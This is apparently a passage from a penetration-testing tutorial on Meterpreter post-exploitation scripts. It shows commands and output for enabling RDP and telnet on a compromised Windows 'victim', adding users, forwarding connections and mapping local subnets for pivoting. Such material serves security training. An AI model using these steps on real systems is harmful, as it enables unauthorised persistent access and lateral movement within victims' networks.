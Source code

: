 # 4 - getgui

The getgui script is used to enable RDP on a target system if it is disabled.

```
meterpreter > run getgui

[!] Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp OPTION=value [...]
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p
Or:    getgui -e

OPTIONS:

    -e        Enable RDP only.
    -f   Forward RDP Connection.
    -h        Help menu.
    -p   The Password of the user to add.
    -u   The Username of the user to add.
```

```
meterpreter > run getgui -e

[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*] RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] Terminal Services service is already set to auto
[*] Opening port in local firewall if necessary
```

# 5 - get_local_subnets

The get_local_subnets script is used to get the local subnet mask of a victim. This can be very useful information to have for pivoting.

```
meterpreter > run get_local_subnets

Local subnet: 10.211.55.0/255.255.255.0
```

# 6 - gettelnet

The gettelnet script is used to enable telnet on the victim if it is disabled.

```
meterpreter > run gettelnet
Windows Telnet Server Enabler Meterpreter Script
Usage: gettelnet -u  -p

OPTIONS:

    -e        Enable Telnet Server only.
    -f   Forward Telnet Connection.
    -h        Help menu.
    -p   The Password of the user to add.
    -u   The Username of the user to add.
```
